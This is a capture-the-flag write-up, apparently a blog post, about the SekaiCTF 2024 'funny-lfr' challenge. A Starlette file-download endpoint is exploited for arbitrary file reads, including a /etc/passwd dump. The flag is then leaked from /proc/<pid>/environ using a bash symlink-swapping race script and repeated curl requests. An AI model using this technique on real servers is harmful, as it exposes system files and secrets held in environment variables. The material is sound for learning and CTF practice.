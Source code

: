 ```yaml
---
layout: post
title: "funny-lfr - sekaictf2024"
date: 2024-08-23 16:00:00
categories: writeups
tags: web starlette race 2024
excerpt: Race condition with symlinks in starlette leads to env read
mathjax: false
---
```

* content
{:toc}
183 points - 36 solves

**Challenge author**: irogir

{: .note }
This challenge came with an ssh access for `convenience`, but we ended up using it as part of the solve...

### Challenge Description
Funny lfr

We are given a Starlette server that looks like this:

```python
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import FileResponse


async def download(request):
    return FileResponse(request.query_params.get("file"))


app = Starlette(routes=[Route("/", endpoint=download)])
```

And a Dockerfile that looks like this:

```Dockerfile
FROM python:3.9-slim

RUN pip install --no-cache-dir starlette uvicorn

WORKDIR /app

COPY app.py .

ENV FLAG="SEKAI{test_flag}"

CMD ["uvicorn", "app:app", "--host", "0", "--port", "1337"]
```

From the Dockerfile, we need to read an environment variable named FLAG to get the flag.

The website serves us any file from the server.

Spinning up the Dockerfile on port 1337 locally, we can go to `http://localhost:1337/?file=/etc/passwd` and get the contents of the `/etc/passwd` file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Typically on linux systems, the current process environment variables are stored in `/proc/<pid>/environ`. The current process has its environment variables in `/proc/self/environ`. We can use this to read the environment variables of the running process.

At first glance this seems easy right? Just go to `http://localhost:1337/?file=/proc/self/environ` and we should get the flag.

But when we try to do that, we are recieved by an empty page?

![empty](../../../../images/empty_page.png)

Checking the error logs of the server we see 
```
h11._util.LocalProtocolError: Too much data for declared Content-Length
```

How can such a small file be too much data for the declared Content-Length?

After taking a closer look at Starlette's source code on github, we find that it [uses os.stat to determine file size](https://github.com/encode/starlette/blob/master/starlette/responses.py#L325).

![os.stat](../../../../images/os_stat.png)

Lets see what stat says about our `/proc/self/environ` file.

![stat_output](../../../../images/stat_output.png)

Strangely enough it says the file size is 0 bytes. But we know that the file is not empty.

After some research this is because the `/proc` directory is actually in the `procfs` filesystem. This filesystem is a virtual filesystem that doesnt contain actual files. [See more info on procfs here](https://en.wikipedia.org/wiki/Procfs).

My first thought now, is to try and find some other file that might contain a process's environment variables.

I was curious about where the kernel stores the environment variables of a process, and took a deep dive into the c `getenv` function. Ultimately this ended up being a dead end.

I also wrote a small script to search every single file on the file system for the word `SEKAI{` and found nothing.

After being stuck at this step for a while, a teammate of mine came up with the idea that there could be a race condition with `os.stat` and symlinks.

A [symlink](https://www.komprise.com/glossary_terms/symbolic-link/) is a file that points to another file. If we can create a symlink to a random file with content-length greater than the length of `/proc/self/environ` , we can try to swap the symlink to `/proc/self/environ` while the server is running `os.stat`.

This way, the server stats a file with a large content-length, then the symlink is swapped to `/proc/self/environ`, and then the server reads from `/proc/self/environ` instead of the original file.

A small diagram of this is shown below.

![symlink_swap_diagram](../../../../images/symlink_swap_diagram.png)

What's the best way to achieve this race condition? 

Beloved `brute force` of course!

{: .note }
`/proc/self/environ` will be different for each process, so we need to find out the pid of the server with something like `ps aux` and replace `self` with the pid. From now on I will be using this `pid`, in my case `7` in place of `self`.

Since this challenge gives us ssh access for some reason, we can write a bash script to repeatedly swap the symlink between some large file and `/proc/7/environ`.

The script is shown below:

```bash
#! /bin/bash

echo -n $(printf 'A%.0s' {1..5000}) > /tmp/bruh
ln -s /tmp/bruh /tmp/asd

while true; do
    ln -sf /proc/7/environ /tmp/asd
    ln -sf /tmp/bruh /tmp/asd
done
```

The script echos 5000 `A`'s into a file `/tmp/bruh`, and then creates a symlink `/tmp/asd` to `/tmp/bruh`.

Then it enters an infinite loop, where it swaps the symlink between `/proc/7/environ` and `/tmp/bruh`.

We can run this script on the server, and then spam curl requests to `http://localhost:1337/?file=/tmp/asd` until we get the flag.

Trying this on remote we get... `Internal Server Error`?

What is going on? The script worked locally but on remote we get an internal server error?

After some debugging we find that `/tmp` is a directory that has the [sticky bit](https://en.wikipedia.org/wiki/Sticky_bit) set. This gives the webserver permission denied when it tries access the contents of the symlink.

We can fix this by creating a new directory in `/tmp` and running the script there.

Here I call this directory `b`, and we can rereun the script in the `/tmp/b` directory.

```bash
#! /bin/bash

echo -n $(printf 'A%.0s' {1..5000}) > /tmp/b/bruh
ln -s /tmp/b/bruh /tmp/b/asd

while true; do
    ln -sf /proc/7/environ /tmp/b/asd
    ln -sf /tmp/b/bruh /tmp/b/asd
done
```

Running this on remote, and spamming a couple curl requests gets the content of `/proc/7/environ` and we get the flag!

SEKAI{b04aef298ec8d45f6c62e6b6179e2e66de10c542}

### My Thoughts

This was a fun challenge that was seemingly easy at first, but ended up being a bit more difficult than anticipated. I decided to write this one up even though it had a lot of solves because it used the Starlette library itself as a jail, and I thought that was pretty cool. 

Also [funny video of solve here](https://streamable.com/iajafe)


